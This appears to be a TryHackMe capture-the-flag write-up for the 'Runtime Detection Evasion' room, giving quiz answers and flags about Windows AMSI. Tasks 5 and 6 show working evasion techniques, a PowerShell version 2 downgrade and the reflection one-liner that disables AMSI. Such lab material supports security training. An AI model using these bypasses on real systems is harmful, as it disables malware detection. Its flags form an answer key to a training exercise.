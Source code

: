 ```yaml
---
title: Runtime Detection Evasion
author: CYB3RM3
name: CYB3RM3 | Runtime Detection Evasion
date: 2022-10-16 15:22:31 +0100
categories: [TryHackMe, Host Evasions]
tags: [Malware, Evasion, SOC, Red Team]
---
```


Learn how to bypass common runtime detection measures, such as AMSI, using modern tool-agnostic approaches.

THM Room [https://tryhackme.com/room/runtimedetectionevasion](https://tryhackme.com/room/runtimedetectionevasion)


## TASK 1 : Introduction
### Start the provided machine and move on to the next tasks. 
No Answer

## TASK 2 : Runtime Detections
### Read the above and answer the question below. 
No Answer

### What runtime detection measure is shipped natively with Windows?
Answer : AMSI

## TASK 3 : AMSI Overview
### Read the above and answer the question below. 

No Answer.

### What response value is assigned to 32768?

![AMSI](/images/thm/runtimedetectionevasion/runtimedetectionevasion_1.png)
_AMSI_

Answer : AMSI_RESULT_DETECTED

## TASK 4 : AMSI Instrumentation


### Read the above and answer the question below. 

No Answer.

### Will AMSI be instrumented if the file is only on disk? (Y/N)

 "AMSI is instrumented from System.Management.Automation.dll, a .NET assembly developed by Windows; From the Microsoft docs, "Assemblies form the fundamental units of deployment, version control, reuse, activation scoping, and security permissions for .NET-based applications." The .NET assembly will instrument other DLLs and API calls depending on the interpreter and whether it is on disk or memory."

No the code should be run.

Answer : N

## TASK 5 : PowerShell Downgrade


### Read the above and practice downgrading PowerShell on the provided machine. 

IN CMD.EXE :

```console
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\THM-Attacker>powershell -Version 2
Windows PowerShell
Copyright (C) 2009 Microsoft Corporation. All rights reserved.

PS C:\Users\THM-Attacker> cd .\Desktop
PS C:\Users\THM-Attacker\Desktop> type .\flag.txt
THM{p0w3r5h3ll_d0wn6r4d3!}
PS C:\Users\THM-Attacker\Desktop>
```
{: .nolineno }

No Answer.

### Enter the flag obtained from the desktop after executing the command in cmd.exe.

Answer : THM{p0w3r5h3ll_d0wn6r4d3!}

## TASK 6 : PowerShell Reflection


### Read the above and practice leveraging the one-liner on the provided machine. To utilize the one-liner, you can run it in the same session as the desired malicious code or prepend it to the malicious code.

No Answer.

### Enter the flag obtained from the desktop after executing the command.

```powershell
PS C:\Users\THM-Attacker\Desktop> [Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
PS C:\Users\THM-Attacker\Desktop> type .\flag-1.txt
THM{r3fl3c7_4ll_7h3_7h1n65}
```
{: .nolineno }

Answer : THM{r3fl3c7_4ll_7h3_7h1n65}

## TASK 7 : Patching AMSI

### Read the above and execute/observe the script on the provided machine.

No Answer.

Enter the flag obtained from the desktop after executing the command. 

```powershell
PS C:\Users\THM-Attacker\Desktop> .\bypass.ps1
True
PS C:\Users\THM-Attacker\Desktop> type .\flag-2.txt
THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}
```
{: .nolineno }

Answer : THM{p47ch1n6_15n7_ju57_f0r_7h3_600d_6uy5}

## TASK 8 : Automating for Fun and Profit
### Read the above and continue to the next task. 
No Answer.

## TASK 9 : Conclusion 
### Read the above and continue learning! 
No Answer.